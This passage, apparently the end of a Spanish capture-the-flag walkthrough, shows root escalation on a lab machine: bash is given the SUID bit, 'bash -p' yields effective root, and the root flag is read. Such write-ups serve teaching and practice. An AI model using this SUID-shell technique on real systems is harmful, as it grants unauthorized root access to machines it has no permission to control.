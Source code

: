 Y si lanzamos otra vez nuestro script y comprobamos la `bash`
```console
margo@caption:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Por lo cual simplemente para escalar privilegios podemos lanzarnos una `bash` como el propietario con `bash -p`
```console
bash-5.1# id
uid=1000(margo) gid=1000(margo) euid=0(root) groups=1000(margo)
```

Podemos leer la flag de `root`
```console
bash-5.1# cat /root/root.txt 
993de3b56e4e458...
```

¡Y ya estaría!

Happy Hacking! 🚀